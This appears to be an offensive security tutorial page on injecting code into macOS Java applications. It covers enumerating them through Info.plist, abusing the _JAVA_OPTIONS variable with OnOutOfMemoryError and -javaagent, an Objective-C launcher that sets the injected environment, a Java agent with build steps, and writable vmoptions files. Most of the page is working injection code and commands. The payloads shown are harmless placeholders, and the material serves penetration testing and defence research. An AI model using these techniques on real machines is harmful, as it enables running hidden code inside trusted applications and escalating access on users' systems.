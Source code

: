 # macOS Java Applications Injection


## Enumeration

Find Java applications installed in your system. It was noticed that Java apps in the **Info.plist** will contain some java parameters which contain the string **`java.`**, so you can search for that:

```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```
```
## \_JAVA_OPTIONS

The env variable **`_JAVA_OPTIONS`** can be used to inject arbitrary java parameters in the execution of a java compiled app:

```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```
```
To execute it as a new process and not as a child of the current terminal you can use:

```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        // Specify the file path and content
        NSString *filePath = @"/tmp/payload.sh";
        NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

        NSError *error = nil;

        // Write content to the file
        BOOL success = [content writeToFile:filePath
                                 atomically:YES
                                   encoding:NSUTF8StringEncoding
                                      error:&error];

        if (!success) {
            NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
            return 1;
        }

        NSLog(@"File written successfully to %@", filePath);

        // Create a new task
        NSTask *task = [[NSTask alloc] init];

        /// Set the task's launch path to use the 'open' command
        [task setLaunchPath:@"/usr/bin/open"];

        // Arguments for the 'open' command, specifying the path to Android Studio
        [task setArguments:@[@"/Applications/Android Studio.app"]];

        // Define custom environment variables
        NSDictionary *customEnvironment = @{
            @"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
        };

        // Get the current environment and merge it with custom variables
        NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
        [environment addEntriesFromDictionary:customEnvironment];

        // Set the task's environment
        [task setEnvironment:environment];

        // Launch the task
        [task launch];
    }
    return 0;
}
```
```
However, that will trigger an error on the executed app, another more stealth way is to create a java agent and use:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
```
> [!CAUTION]
> Creating the agent with a **different Java version** from the application can crash the execution of both the agent and the application

Where the agent can be:

```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
  public static void premain(String args, Instrumentation inst) {
    try {
      String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
      Runtime.getRuntime().exec(commands);
    }
    catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
```
To compile the agent run:

```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```
```
With `manifest.txt`:

```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
```
And then export the env variable and run the java application like:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
```
## vmoptions file

This file support the specification of **Java params** when Java is executed. You could use some of the previous tricks to change the java params and **make the process execute arbitrary commands**.\
Moreover, this file can also **include others** with the `include` directory, so you could also change an included file.

Even more, some Java apps will **load more than one `vmoptions`** file.

Some applications like Android Studio indicates in their **output where are they looking** for these files, like:

```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```
```
If they don't you can easily check for it with:

```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```
```
Note how interesting is that Android Studio in this example is trying to load the file **`/Applications/Android Studio.app.vmoptions`**, a place where any user from the **`admin` group has write access.**




